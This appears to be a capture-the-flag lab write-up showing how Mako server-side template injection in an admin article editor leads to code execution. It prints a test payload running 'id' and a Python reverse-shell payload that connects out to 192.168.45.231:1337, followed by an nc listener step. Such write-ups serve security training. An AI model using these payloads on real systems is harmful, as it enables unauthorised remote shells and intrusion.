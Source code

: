 Upon clicking `Admin Dashboard` this leads us to `Create a  New Article`
![[Pasted image 20241208022740.png]]
this brings us to this field - where `mako` is being utilized for `templating`
![[Pasted image 20241208022820.png]]
a simple google search shows us that `mako` utilizes python
![[Pasted image 20241208022911.png]]
utilizing `hacktricks mako` gives us a payload to test for `SSTI`
![[Pasted image 20241208023108.png]]
```python
<%
import os
x=os.popen('id').read()
%>
${x}
```
this is what it looks like utilizing the `payload` - and hitting update
![[Pasted image 20241208023145.png]]
after hitting update lets navigate to the view of a generic `user` viewing the news page
![[Pasted image 20241208023246.png]]
this proves that it is utilizing `python` and we can try to utilize `revshells` to generate a simple `python shell` utilizing the `mako` formatting 
![[Pasted image 20241208025132.png]]
the payload used that gives a semi stable reverse shell
-  putting code in between `<%` and `%>` which is the required format for `mako`
```python
<%
import os,pty,socket;s=socket.socket();s.connect(("192.168.45.231",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
%>
${x}
```
submitting payload and ensuring to hit `update`
![[Pasted image 20241208025306.png]]
once the payload is in place - make sure to setup `nc` listener and brose to the `news` page that this would be displayed on - it doesnt load because its kicking off the `revshell`
![[Pasted image 20241208025413.png]]
flag
![[Pasted image 20241208025446.png]]